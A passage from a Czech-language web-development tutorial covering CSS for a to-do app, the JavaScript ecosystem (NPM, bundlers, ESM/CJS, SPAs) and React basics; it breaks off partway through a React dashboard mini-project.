    // Projdeme je a jejich textový obsah uložíme do pole
    polozkySeznamu.forEach(li => {
        ukoly.push(li.textContent);
    });
    
    // Převedeme pole na JSON řetězec a uložíme ho
    localStorage.setItem(STORAGE_KEY, JSON.stringify(ukoly));
}

// 3. Spuštění a posluchač
	// 1. Při načtení stránky se pokusíme načíst úkoly z úložiště
nactiUkoly();
	// 2. Nastavíme posluchač na formulář (pro událost 'submit')
todoForm.addEventListener('submit', pridejUkol);
```
`soubor: style.css`
```css
/* 1. ZÁKLADNÍ NASTAVENÍ (RESET) */ 
/* Zajišťuje, že se padding a border počítají dovnitř šířky elementu (border-box) */
*, *::before, *::after {
    box-sizing: border-box;
    margin: 0;
    padding: 0;
} 
/* Nastavení základního fontu a barvy pozadí / textu */
body {
    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
    line-height: 1.6;
    color: #333; /* Tmavá barva textu */
    background-color: #f4f4f9; /* Světle šedé pozadí */
} 
/* 2. TYPOGRAFIE A ZÁKLADNÍ VZHLED */ 
h1, h2, h3 {
    margin-bottom: 0.5em;
    line-height: 1.2;
    color: #007bff; /* Modrá jako primární barva */
} 
h1 {
    font-size: 2.5rem; /* Větší velikost pro hlavní nadpis */
    color: #f4f4f9; /* Světle šedá pro kontrast s modrým pozadím */
} 
h2 {
    font-size: 1.8rem;
    padding-top: 1em;
    border-bottom: 2px solid #ddd;
    margin-bottom: 1em;
} 
ul {
    list-style-type: disc;
    margin-left: 20px;
} 
/* Stylování obrázku */
img {
    max-width: 100%; /* Zajištění, že obrázek nepřeteče rodičovský kontejner */
    height: auto;
    border-radius: 8px; /* Jemné zaoblení rohů */
    margin: 15px 0;
    box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
} 
/* 3. ROZVRŽENÍ A FLEXBOX (LAYOUT) */ 
.container {
    /* Centrujeme obsah na stránce a dáváme mu maximální šířku */
    max-width: 1200px;
    margin: 0 auto;
    padding: 20px;
} 
header, footer {
    background-color: #007bff;
    color: white;
    padding: 1.5em 20px;
    text-align: center;
} 
/* Vytvoření kontejneru pro navigaci/patičku pomocí Flexboxu */
footer nav {
    display: flex;
    justify-content: center; /* Centrování obsahu (text a seznam) */
    align-items: center;
    flex-wrap: wrap; /* Umožní zalomení na malých obrazovkách */
    gap: 20px;
} 
footer nav ul {
    list-style: none; /* Odstranění odrážek */
    margin: 0;
    display: flex; /* Vodorovné zarovnání odkazů */
    gap: 20px;
} 
/* Vytvoření Flex/Grid kontejneru pro sekci Vybrané projekty */
#projekty-kontejner {
    display: flex; /* Flexbox je ideální pro karty */
    flex-direction: column; /* MOBILE-FIRST: ve výchozím stavu řadíme vertikálně (sloupec) */
    gap: 25px;
    margin-top: 20px;
} 
article {
    background-color: white;
    padding: 20px;
    border-left: 5px solid #007bff; /* Vizuální akcent */
    border-radius: 4px;
    box-shadow: 0 2px 4px rgba(0, 0, 0, 0.05);
} 
/* 4. RESPONZIVITA (@MEDIA QUERIES) */ 
/* Aplikuje se, když je šířka okna (viewport) alespoň 768px (Tablet a Desktop) */
@media screen and (min-width: 768px) {
    
    /* Změna layoutu projektů z vertikálního na horizontální pomocí Flexboxu */
    #projekty-kontejner {
        flex-direction: row; /* Změna na horizontální uspořádání */
    } 
    /* Každý projekt zabere polovinu dostupného místa */
    #projekty-kontejner article {
        flex: 1 1 45%; /* Flex: grow shrink basis (umožní růst/smrsknutí a základní velikost) */
    } 
    /* Větší padding na velkých obrazovkách */
    main section {
        padding: 40px 0;
    }
} 
/* 5. INTERAKTIVNÍ PRVKY (TRANSITIONS) */ 
/* Stylování odkazů */
a {
    color: white; /* Barva odkazu ve footeru */
    text-decoration: none;
    padding-bottom: 2px;
    border-bottom: 2px solid transparent; /* Průhledná čára pro hladký přechod */
    
    /* Nastavení přechodu pro barvu textu a podtržení */
    transition: color 0.3s ease-in-out, border-color 0.3s ease-in-out; 
} 
/* Efekt při najetí myší (hover) */
a:hover {
    color: #e2e6ea; /* Mírně světlejší barva */
    border-bottom: 2px solid #e2e6ea; /* Zviditelnění podtržení */
}
/* 6. TO-DO app */
#todo-app {
    background-color: #fff;
    padding: 25px;
    border-radius: 8px;
    box-shadow: 0 4px 12px rgba(0, 0, 0, 0.08);
    margin-top: 40px;
}
#todo-form {
    display: flex; /* Použijeme Flexbox pro zarovnání inputu a tlačítka */
    gap: 10px; /* Mezera mezi nimi */
    margin-bottom: 20px;
}
#todo-input {
    flex: 1; /* Input zabere veškeré volné místo */
    padding: 12px;
    border: 2px solid #ddd;
    border-radius: 4px;
    font-size: 1rem;
}
#todo-add-btn {
    background-color: #007bff; /* Stejná modrá jako v designu */
    color: white;
    border: none;
    padding: 0 20px;
    font-size: 1rem;
    font-weight: bold;
    border-radius: 4px;
    cursor: pointer;
    transition: background-color 0.3s ease;
}
#todo-add-btn:hover {
    background-color: #0056b3; /* Tmavší modrá při najetí */
}
#todo-list {
    list-style: none; /* Odstranění odrážek */
    margin: 0;
    padding: 0;
}
#todo-list li {
    background-color: #f9f9f9;
    padding: 15px;
    border: 1px solid #eee;
    border-radius: 4px;
    margin-bottom: 10px;
    
    /* Bonus 1: Indikace, že je prvek klikatelný */
    cursor: pointer; 
    
    /* Plynulý přechod pro efekt */
    transition: all 0.3s ease;
}
/* Bonus 1 (rozšíření): Efekt při najetí na úkol */
#todo-list li:hover {
    background-color: #f1f1f1;
    text-decoration: line-through; /* Přeškrtnutí jako náznak smazání */
    color: #888;
}
```
- ukázka animace:
- 

---
## 5 Moderní Frontend – frameworky a architektura
### 5.1 JavaScript ekosystém
- Když jsme v minulé kapitole psali kód, dělali jsme všechno ručně. Problém je, že moderní aplikace neobsahují jen náš kód, ale spoléhají na desítky či stovky "balíčků" (knihoven) od jiných vývojářů.
- **JavaScript ekosystém** je termín pro obrovskou sbírku nástrojů, knihoven, frameworků a postupů, které nám umožňují:
	- Spravovat závislosti (kód jiných lidí).
	- Optimalizovat kód pro produkci.
	- Automatizovat opakující se úkoly (jako je kompilace Sass).
	- Psát kód rychleji a bezpečněji.
- Tyto nástroje tvoří základ, na kterém stavíme frameworky jako React.
---
#### 5.1.1 NPM a package.json
##### 5.1.1.1 Co je NPM?
- **NPM (Node Package Manager)** je největší světový "obchod" s open-source kódem. Je to obrovská online databáze (registr) balíčků – kousků JavaScript kódu, které za nás řeší nějaký problém.
	- Potřebujeme formátovat datum? Není třeba to psát, stačí `npm install date-fns`.
	- Potřebujeme dělat složité HTTP požadavky? `npm install axios`.
	- Potřebujeme postavit celou aplikaci? `npm install react`.
- NPM je také **nástroj v příkazové řádce**, který se stará o instalaci a správu těchto balíčků.
---
##### 5.1.1.2 Co je `package.json`?
- Pokud je NPM obchod, `package.json` je váš **nákupní seznam** a zároveň **občanský průkaz** vašeho projektu. Je to jednoduchý JSON soubor, který definuje metadata o projektu.
- **Klíčové části `package.json`:**
	- **`"name"`** a **`"version"`**: Identifikace vašeho projektu.
	- **`"dependencies"`**: Seznam balíčků, které váš projekt potřebuje k **běhu** (např. `react`). Když spustíte `npm install react`, balíček se automaticky přidá sem.
	- **`"devDependencies"`**: Seznam balíčků, které jsou potřeba pouze pro **vývoj** (např. testovací nástroje, bundlery jako Vite).
	- **`"scripts"`**: Zkratky pro spouštění příkazů v terminálu. Místo psaní `vite --run-dev-server --port 3000` napíšeme jen `npm run dev`.
- Když si stáhneme projekt z GitHubu, neobsahuje složku `node_modules` (která je obrovská a nikdy se do Gitu nedává!). Stačí v terminálu spustit `npm install`. NPM si přečte `package.json` a automaticky stáhne všechny potřebné `dependencies` a `devDependencies`.
---
#### 5.1.2 Bundlery – Webpack, Vite
- V kapitole "Moduly" jsme propojili soubory `utils.js` a `main.js` pomocí `<script type="module">`. To funguje pro 2 soubory. Reálná aplikace má ale **stovky souborů**. Kdyby měl prohlížeč načítat každý soubor zvlášť, udělal by stovky HTTP požadavků a stránka by se načítala minuty.
- **Problém:** Chceme psát kód modulárně (ve stovkách souborů), ale prohlížeč ho chce dostat ideálně v **jednom souboru**.
- **Řešení:** **Bundler** (svazkovač).
	- Bundler je nástroj, který projde veškerý váš kód (`.js`, `.css`, `.scss`, obrázky...), analyzuje všechny `import` příkazy a "sváže" je dohromady do jednoho (nebo několika málo) optimalizovaných souborů, kterým už prohlížeč rozumí.
	- Během tohoto procesu také provádí další kouzla:
		- **Minifikace:** Odstraní z kódu všechny mezery a zkrátí názvy proměnných, aby byl soubor co nejmenší.
		- **Transpilace:** Převede moderní JS (nebo TypeScript) na starší verzi, které rozumí i starší prohlížeče.
		- **Zpracování CSS:** Zkompiluje Sass, přidá vendor prefixy atd.
---
##### 5.1.2.1 Webpack vs. Vite
- **Webpack:** Dlouholetý král. Je nesmírně konfigurovatelný, ale jeho nastavení je notoricky složité. Před spuštěním dev serveru musí "přebudovat" celou aplikaci.
- **Vite:** Nová generace. Je extrémně rychlý, protože v developmentu využívá nativní ESM (které jsme se učili) a "bundluje" jen to, co je nezbytně nutné (např. závislosti). Bundluje až při finálním "buildu" pro produkci. Pro začátečníky je mnohem přívětivější a dnes je standardem pro React i Vue.
---
#### 5.1.3 ESM vs CJS
- Když jsme se učili moduly, použili jsme syntaxi `import` a `export`. Toto je **ESM (ECMAScript Modules)**, moderní, oficiální standard JavaScriptu pro práci s moduly, kterému rozumí prohlížeče.
```javascript
// ESM syntaxe (moderní, pro prohlížeče a nový Node.js)
import { secti } from './utils.js';
export const PI = 3.14;
```
- Dlouhou dobu ale existoval jiný standard, primárně vytvořený pro **Node.js** (JavaScript na serveru), kterému se říká **CJS (CommonJS)**. Prohlížeče mu vůbec nerozumí.
```javascript
// CJS syntaxe (starší, pro Node.js)
const { secti } = require('./utils.js');
module.exports.PI = 3.14;
```
- **Proč je to důležité?** Protože **NPM** (které vzešlo z Node.js) bylo historicky plné CJS balíčků. Dnešní bundlery (jako Vite) musí být schopné vzít starý CJS kód z `node_modules` a přeložit ho do ESM formátu, kterému rozumí prohlížeč
- Dnes se celý ekosystém přiklání k ESM, ale CJS syntaxi (`require`) ještě uvidíte ve spoustě starších tutoriálů nebo v konfiguračních souborech Node.js.
---
#### 5.1.4 Co je SPA (Single Page Application)
- Máme všechny nástroje a chápeme, jak fungují. K čemu je použijeme? K tvorbě **Single Page Application** (Aplikace na jedné stránce).
---
##### 5.1.4.1 Tradiční web (MPA - Multi-Page Application)
- Postup
	1. Zadáte `www.web.cz/o-nas`.
	2. Prohlížeč pošle **HTTP request** serveru.
	3. Server vrátí **kompletní HTML soubor** pro stránku "O nás".
	4. Stránka se **kompletně znova načte** (bílá obrazovka, "bliknutí").
	5. Kliknete na "Kontakt".
	6. Celý proces se opakuje.
---
##### 5.1.4.2 Moderní web (SPA - Single Page Application)
- Postup
	1. Zadáte `www.app.cz`.
	2. Prohlížeč pošle **HTTP request** serveru.
	3. Server vrátí **jediný HTML soubor** (`index.html`) a **velký JS soubor** (náš "bundle" z Vite).
	4. Stránka se načte. Nyní přebírá kontrolu JavaScript (např. React).
	5. Kliknete na odkaz "O nás".
	6. **Stránka se nenačte znova!**
	7. JavaScript zachytí kliknutí, pomocí **Fetch API** si ze serveru stáhne **pouze potřebná data** (obvykle ve formátu JSON).
	8. JavaScript pomocí **DOM manipulace** (kterou jsme se učili) "vymaže" obsah stránky a vykreslí nový obsah pro "O nás".
	9. URL adresa v prohlížeči se změní (pomocí speciálního API), aby uživatel mohl použít tlačítko Zpět.
- Výsledek je bleskurychlý. Aplikace působí jako program na počítači, ne jako webová stránka. Gmail, Google Mapy, Figma, Facebook – to všechno jsou Single Page Applications.
- Frameworky jako **React** jsou navrženy přesně k tomu, aby nám tvorbu těchto komplexních SPA co nejvíce usnadnily. A my jsme nyní připraveni se na React podívat.
---
### 5.2 React
- React (často React.js) je **JavaScriptová knihovna** pro tvorbu uživatelských rozhraní (UI). Není to kompletní framework (jako např. Angular), ale specializovaná knihovna, která se soustředí na jednu věc a dělá ji skvěle: **efektivní vykreslování UI komponent**.
- Proč je tak populární?
	- **Deklarativní:** Místo ruční manipulace DOMu (jako v našem to-do listu, např. `document.createElement...`) Reactu pouze _deklarujeme_, jak má UI vypadat v závislosti na datech. React se sám postará o tu nejsložitější část – efektivní aktualizaci DOMu.
	- **Komponentový přístup:** Umožňuje nám rozbít složité UI na malé, izolované a znovupoužitelné kousky – **komponenty**.
	- **Virtual DOM:** React si drží v paměti vlastní "virtuální" kopii DOMu. Když se data změní, React porovná nový virtuální DOM se starým, najde minimální nutný rozdíl a ten pak promítne do skutečného DOMu. To je extrémně rychlé.
---
#### 5.2.1 Komponenty
- **Komponenta je základní stavební jednotka Reactu.** Je to v podstatě JavaScriptová funkce (v moderním Reactu), která přijímá nějaká data a vrací HTML (respektive JSX).
- Vzpomeňte si na `utils.js`, kde jsme exportovali funkci. Zde exportujeme "kus" uživatelského rozhraní.
```javascript
// soubor: Tlacitko.jsx
// Toto je jednoduchá funkcionální komponenta.
function Tlacitko() {
    return (
        <button className="moje-tlacitko">
            Klikni na mě
        </button>
    );
}
// Exportujeme ji, abychom ji mohli použít jinde
export default Tlacitko;
```

```javascript
// soubor: App.jsx
// Importujeme naši komponentu
import Tlacitko from './Tlacitko.jsx';

// App je také komponenta, která "obaluje" ostatní
function App() {
    return (
        <div>
            <h1>Moje React Aplikace</h1>
            <Tlacitko />
            <Tlacitko /> 
        </div>
    );
}
```
- Všimněte si `className` místo `class`. Jelikož jsme v JavaScriptu, `class` je rezervované klíčové slovo. Syntaxi, která míchá HTML a JS, se říká **JSX (JavaScript XML)**.
---
#### 5.2.2 Props a State
- Toto je nejdůležitější koncept v Reactu. Komponenty potřebují data, aby byly dynamické. Data mohou získat ze dvou zdrojů: `props` nebo `state`.
---
##### 5.2.2.1 Props (Vlastnosti)
- **Props** (properties) jsou data, která komponentě přicházejí **zvenčí**, od jejího rodiče. Komponenta je **nemůže sama změnit** (jsou pouze ke čtení, "read-only").
- _Analogie: Jsou to argumenty funkce._
```javascript
// Rodič (App.jsx) posílá 'props'
function App() {
    return (
        <div>
            <Tlacitko text="Odeslat" />
            <Tlacitko text="Zrušit" />
        </div>
    );
}
```

```javascript
// Potomek (Tlacitko.jsx) přijímá 'props'
// 'props' je objekt: { text: "Odeslat" }
function Tlacitko(props) {
    return (
        <button className="moje-tlacitko">
            {props.text} 
        </button>
    );
}
```
- Tomuto se říká **jednosměrný datový tok (one-way data flow)**. Data tečou vždy shora (rodič) -> dolů (potomek).
---
##### 5.2.2.2 State (Stav)
- **State** (stav) jsou data, která komponenta spravuje **uvnitř sebe**. Je to její interní paměť. Když se `state` změní, React **automaticky a inteligentně překreslí** komponentu.
- _Analogie: Jsou to lokální proměnné uvnitř funkce, které si "pamatují" hodnotu mezi voláními._
- Jak ale přidáme `state` do funkce? Pomocí "háčků" (Hooks).
---
#### 5.2.3 Hooks (Háčky)
- Hooks jsou speciální funkce (vždy začínají na `use...`), které nám umožňují "zaháknout se" do interních mechanismů Reactu (jako je state nebo životní cyklus) z funkcionálních komponent.
---
##### 5.2.3.1 `useState`
- Nejdůležitější hook. Přidává komponentě lokální `state`.
```javascript
import { useState } from 'react'; // Musíme ho importovat

function Pocitadlo() {
    // useState vrátí pole: [aktuální hodnota, funkce pro změnu hodnoty]
    // Používáme "destrukturaci" pole pro jejich pojmenování
    const [pocet, setPocet] = useState(0); // 0 je počáteční hodnota
    
    const zvedniPocet = () => {
        // Nikdy neměníme state přímo (NE: pocet = pocet + 1)!
        // Vždy voláme nastavovací funkci.
        setPocet(pocet + 1);
    };
    
    return (
        <div>
            <p>Kliknul jsi {pocet} krát.</p>
            <button onClick={zvedniPocet}>Klikni</button>
        </div>
    );
}
```
- Když zavoláme `setPocet(1)`, React si všimne změny a **znovu spustí funkci `Pocitadlo`**, ale tentokrát bude mít `pocet` hodnotu 1. Tím se UI automaticky aktualizuje.
---
##### 5.2.3.2 `useEffect`
- Tento hook slouží k provádění **vedlejších efektů (side effects)**. Vedlejší efekt je cokoliv, co se děje mimo samotné vykreslování komponenty:
	- Načítání dat (Fetch)
	- Přímá manipulace s DOM (výjimečně)
	- Nastavení časovačů (`setTimeout`)
- `useEffect` přijímá funkci a pole závislostí.
```javascript
// Spustí se POUZE jednou, když se komponenta poprvé vykreslí
// (Díky prázdnému poli závislostí [])
useEffect(() => {
    console.log("Komponenta se poprvé vykreslila");
    // Ideální místo pro fetch dat
}, []);

// Spustí se po každém vykreslení, pokud se změnila hodnota 'pocet'
useEffect(() => {
    document.title = `Kliknul jsi ${pocet} krát`;
}, [pocet]); 
```

---
#### 5.2.4 Router
- React sám o sobě neumí spravovat URL adresy (je to jen UI knihovna). Pro vytvoření **SPA** (kterou jsme definovali v minulé kapitole) potřebujeme externí balíček.
- Nejpopulárnější je **React Router** (`npm install react-router-dom`).
- Umožňuje nám definovat, která komponenta se má vykreslit pro jakou URL, aniž by se stránka znovu načítala.
```javascript
import { BrowserRouter, Routes, Route, Link } from 'react-router-dom';

function App() {
    return (
        <BrowserRouter>
            <nav>
                <Link to="/">Domů</Link>
                <Link to="/o-nas">O nás</Link>
            </nav>
            
            <Routes>
                <Route path="/" element={<KomponentaDomu />} />
                <Route path="/o-nas" element={<KomponentaONas />} />
            </Routes>
        </BrowserRouter>
    );
}
```
- `<BrowserRouter>` obaluje celou aplikaci a umožňuje sledovat URL.
- `<Link>` funguje jako `<a>`, ale **bez reloadu stránky** — mění jen URL uvnitř SPA.
- `<Routes>` vybírá, která `<Route>` odpovídá aktuální adrese.
- Každá `<Route>` má:
    - `path` – URL cesta (např. `/`, `/o-nas`)
    - `element` – komponenta, která se má vykreslit
---
#### 5.2.5 Formuláře a validace
- Ve "vanilla" JS jsme četli hodnotu z DOMu (`todoInput.value`). V Reactu je to jinak. Stav formuláře (co je napsáno v inputu) je uložen v **React `state`**.
- Tomuto se říká **kontrolovaná komponenta (Controlled Component)**.
```javascript
import { useState } from 'react';

function FormularJmena() {
    const [jmeno, setJmeno] = useState('');

    const handleSubmit = (event) => {
        event.preventDefault(); // Zabráníme znovunačtení stránky
        alert(`Odesláno jméno: ${jmeno}`);
        // Zde by proběhla validace...
    };

    return (
        <form onSubmit={handleSubmit}>
            <label>Jméno:</label>
            <input 
                type="text"
                value={jmeno} // Hodnota inputu je VŽDY řízena stavem
                onChange={(e) => setJmeno(e.target.value)} // Každé písmeno aktualizuje stav
            />
            <button type="submit">Odeslat</button>
        </form>
    );
}
```
- **Datový tok:** Uživatel píše -> spouští se `onChange` -> `setJmeno` aktualizuje `state` -> React překreslí komponentu -> `input` dostane novou hodnotu (`value={jmeno}`).
---
#### 5.2.6 Fetch v Reactu
- Kam umístíme `fetch` kód, který jsme se naučili? Do `useEffect` hooku, aby se data načetla, jakmile se komponenta zobrazí. Načtená data uložíme do `state`.
```javascript
import { useState, useEffect } from 'react';

// Komponenta, která načítá data z API
function NactiData() {
    const [data, setData] = useState(null); // Stav pro uložená data z API
    const [nacitam, setNacitam] = useState(true); // Stav, který říká, zda se právě načítá
    const [chyba, setChyba] = useState(null); // Stav pro případnou chybu při načítání
    // useEffect se spustí po prvním vykreslení komponenty (mount)
    useEffect(() => {
        // Asynchronní funkce pro načtení dat
        const nactiApi = async () => {
            try {
                const url = 'https://jsonplaceholder.typicode.com/posts/1';
                // Zavoláme API pomocí fetch
                const response = await fetch(url);
                // Pokud server vrátí chybu (400, 500...), vyhodíme vlastní chybu
                if (!response.ok) {
                    throw new Error(`HTTP chyba! Status: ${response.status}`);
                }
                // Převedeme odpověď na JSON
                const json = await response.json();
                // Uložíme získaná data do stavu
                setData(json);
            } catch (e) {
                // Pokud nastane chyba (např. síťová), uložíme si její text
                setChyba(e.message);
            } finally {
                // Vždy se provede → říkáme, že načítání skončilo
                setNacitam(false);
            }
        };
        // Spustíme funkci pro načtení dat
        nactiApi();
        // Prázdné pole = efekt proběhne jen při prvním renderu
    }, []);
    // Pokud stále načítáme, zobrazíme hlášku
    if (nacitam) return <p>Načítám data...</p>;
    // Pokud nastala chyba, zobrazíme ji
    if (chyba) return <p>Chyba: {chyba}</p>;
    // Pokud máme data, zobrazíme název příspěvku
    if (data) return <p>Název: {data.title}</p>;
    // Teoretická fallback varianta (většinou se nestane)
    return null;
}
```

---
#### 5.2.7 Stavová správa (Redux, Zustand)
- `useState` je skvělý pro lokální stav. Co když ale 50 komponent v různých částech aplikace potřebuje znát přihlášeného uživatele? Posílat `props` přes 10 úrovní (`prop drilling`) je neefektivní.
- Potřebujeme **globální stav**.
	- **Context API:** Vestavěný mechanismus Reactu pro sdílení dat. Dobrý pro menší objem dat (např. téma dark/light mode, přihlášený uživatel).
	- **Zustand:** Moderní, minimalistická knihovna pro globální stav. Velmi jednoduchá na použití, využívá hooky.
	- **Redux / Redux Toolkit:** Starší, robustnější standard pro obrovské aplikace. Má složitější "boilerplate" (více kódu na nastavení), ale nabízí striktní pravidla pro správu stavu (Actions, Reducers), což se hodí ve velkých týmech.
---
#### 5.2.8 Testování (Jest, RTL)
- Jak si můžeme být jisti, že naše komponenty fungují? Otestujeme je.
	- **Jest:** Testovací platforma (nástroj od Facebooku), která poskytuje prostředí pro spouštění testů (funkce `test()`, `expect()`).
	- **React Testing Library (RTL):** Knihovna pro "vykreslení" komponenty v testovacím prostředí a interakci s ní (simulace kliknutí, psaní do inputu).
- Filozofie RTL je: "Testujte aplikaci tak, jak ji používá uživatel." Místo hledání `div`ů podle `id` nebo `className`, hledáte tlačítko podle jeho textu.
```javascript
import { render, screen, fireEvent } from '@testing-library/react';
import Pocitadlo from './Pocitadlo';

test('po kliknutí na tlačítko se zvýší počet', () => {
    // 1. Vykreslíme komponentu
    render(<Pocitadlo />);
    
    // 2. Najdeme elementy podle textu
    const tlacitko = screen.getByText('Klikni');
    const zprava = screen.getByText('Kliknul jsi 0 krát.');
    
    // 3. Simulujeme akci uživatele
    fireEvent.click(tlacitko);
    
    // 4. Ověříme výsledek
    const novaZprava = screen.getByText('Kliknul jsi 1 krát.');
    expect(novaZprava).toBeInTheDocument();
});
```

---
#### 5.2.9 Mini-projekt: React dashboard
- Nyní vše spojíme.
- **Cíl:** Vytvořit jednoduchou **SPA** (Single Page Application) dashboardu.
- **Požadavky:**
	1. **Nástroje:** Použijte `npm create vite@latest` pro rychlé nastavení projektu.
	2. **Komponenty:** Vytvořte komponenty (`Sidebar.jsx`, `Dashboard.jsx`, `Users.jsx`).
	3. **Router:** Použijte `react-router-dom` k vytvoření dvou stránek: `/` (Dashboard) a `/users` (Uživatelé).
	4. **Fetch & State:** Na stránce `/users` použijte `useEffect` a `useState` k načtení a zobrazení seznamu uživatelů z veřejného API (např. `jsonplaceholder.typicode.com/users`).
	5. **Formuláře:** (Bonus) Na stránce `/users` přidejte `<input>`, který bude pomocí `useState` filtrovat zobrazené uživatele podle jména.
---
- příklad
- Krok 1: Vytvoření a příprava projektu
```bash
# 1. Vytvoříme nový projekt pomocí Vite 
npm create vite@latest react-dashboard -- --template react 
# 2. Přesuneme se do složky projektu 
cd react-dashboard 
# 3. Nainstalujeme všechny základní balíčky (definované ve package.json) 
npm install 
# 4. Spustíme vývojový server 
npm run dev
# Note: adresa je většinou http://localhost:5173/ (popřípadě je vypsaná v terminálu)
# Po kontrole funkčnosti zastavte server (Ctrl+C) a spusťte instalaci routeru:
npm install react-router-dom
```
- Krok 2: Struktura souborů a úklid
	- Výchozí projekt obsahuje soubory, které nepotřebujeme.
		1. **Smažte** soubory `src/App.css`, `src/index.css` a `src/assets/react.svg`.
		2. Vytvoříme si přehlednější strukturu:
		    - `src/components` (pro znovupoužitelné dílčí komponenty, jako je Sidebar)
		    - `src/pages` (pro celé stránky, jako je Dashboard a Uživatelé)
	- Vytvořte si tyto složky a soubory, aby vaše `src` vypadalo takto:
```
src/
├── components/
│   └── Sidebar.jsx
├── pages/
│   ├── Dashboard.jsx
│   └── Users.jsx
├── App.jsx         (Sem dáme logiku routeru)
├── main.jsx        (Hlavní vstupní bod aplikace)
└── style.css       (Náš nový soubor s globálními styly)
```
- Krok 3: Nastavení globálních stylů
`src/style.css`
```css
/* Základní reset a nastavení fontu */
* {
    box-sizing: border-box;
    margin: 0;
    padding: 0;
}

body {
    font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif;
    background-color: #f0f2f5;
    color: #333;
}

/* Hlavní layout aplikace */
.app-layout {
    display: flex;
    min-height: 100vh;
}

/* Komponenta Sidebar */
.sidebar {
    width: 250px;
    background-color: #001529; /* Tmavě modrá */
    color: white;
    padding: 20px;
}

.sidebar h2 {
    margin-bottom: 20px;
}

.sidebar nav ul {
    list-style: none;
}

.sidebar nav li {
    margin-bottom: 10px;
}

.sidebar nav a {
    color: rgba(255, 255, 255, 0.8);
    text-decoration: none;
    display: block;
    padding: 10px 15px;
    border-radius: 6px;
    transition: background-color 0.3s ease;
}

.sidebar nav a:hover {
    background-color: #1677ff;
    color: white;
}

/* Hlavní obsah stránky */
.content {
    flex: 1; /* Zabere zbytek místa */
    padding: 40px;
}

.content h1 {
    font-size: 2.5rem;
    margin-bottom: 20px;
    color: #001529;
}

/* Stránka Uživatelé */
.filter-input {
    width: 100%;
    padding: 12px;
    margin-bottom: 20px;
    font-size: 1rem;
    border: 1px solid #ddd;
    border-radius: 6px;
}

.user-list {
    display: grid;
    grid-template-columns: repeat(auto-fill, minmax(250px, 1fr));
    gap: 20px;
}

.user-card {
    background: #fff;
    border: 1px solid #e8e8e8;
    border-radius: 8px;
    padding: 20px;
    box-shadow: 0 2px 4px rgba(0, 0, 0, 0.05);
}

.user-card h3 {
    color: #007bff;
    margin-bottom: 5px;
}
```
- Krok 4: Komponenty a stránky
`src/components/Sidebar.jsx`
```jsx
import { Link } from 'react-router-dom';
// Zodpovídá za navigaci. Používá komponentu `<Link>` z routeru.
function Sidebar() {
    return (
        <aside className="sidebar">
            <h2>React Dashboard</h2>
            <nav>
                <ul>
                    <li>
                        <Link to="/">Dashboard</Link>
                    </li>
                    <li>
                        <Link to="/users">Uživatelé</Link>
                    </li>
                </ul>
            </nav>
        </aside>
    );
}

export default Sidebar;
```
`src/pages/Dashboard.jsx`
```jsx
// Jednoduchá "vítací" stránka
function Dashboard() {
    return (
        <div>
            <h1>Vítejte na Dashboardu</h1>
            <p>Toto je hlavní stránka vaší aplikace. Vyberte si z menu vlevo.</p>
        </div>
    );
}

export default Dashboard;
```
`src/pages/Users.jsx`
```jsx
import { useState, useEffect } from 'react';
// Srdce projektu. Používá `useState` pro ukládání dat a filtru, a `useEffect` pro načtení dat při startu.
function Users() {
    // Definujeme všechny stavy, které komponenta potřebuje
    const [users, setUsers] = useState([]); // Pole pro data z API
    const [loading, setLoading] = useState(true); // Indikátor načítání
    const [error, setError] = useState(null); // Pro uložení případné chyby
    const [filter, setFilter] = useState(''); // Pro bonusový úkol (filtrování)

    // Tento useEffect se spustí jen jednou, když se komponenta vykreslí (díky [])
    useEffect(() => {
        const fetchUsers = async () => {
            try {
                const response = await fetch('https://jsonplaceholder.typicode.com/users');
                if (!response.ok) {
                    throw new Error('Chyba při načítání dat');
                }
                const data = await response.json();
                setUsers(data);
            } catch (err) {
                setError(err.message);
            } finally {
                setLoading(false);
            }
        };

        fetchUsers();
    }, []); // Prázdné pole závislostí = spustit jen jednou

    // Bonus: Logika filtrování
    // Filtrujeme seznam 'users' na základě textu ve 'filter' stavu
    const filteredUsers = users.filter(user =>
        user.name.toLowerCase().includes(filter.toLowerCase())
    );

    // Podmíněné vykreslování
    if (loading) {
        return <p>Načítám uživatele...</p>;
    }
    if (error) {
        return <p>Nastala chyba: {error}</p>;
    }

    return (
        <div>
            <h1>Seznam uživatelů</h1>
            
            {/* Bonus: Filtrovací input */}
            <input
                type="text"
                className="filter-input"
                placeholder="Filtrovat uživatele podle jména..."
                value={filter}
                onChange={(e) => setFilter(e.target.value)}
            />
            
            {/* Seznam uživatelů vykreslený pomocí .map() */}
            <div className="user-list">
                {filteredUsers.map(user => (
                    <article key={user.id} className="user-card">
                        <h3>{user.name}</h3>
                        <p>{user.email}</p>
                        <p>{user.phone}</p>
                    </article>
                ))}
            </div>
        </div>
    );
}

export default Users;
```
- Krok 5: Propojení všeho (Routeru a hlavní aplikace)
`src/App.jsx`
```jsx
import { Routes, Route } from 'react-router-dom';
import Sidebar from './components/Sidebar';
import Dashboard from './pages/Dashboard';
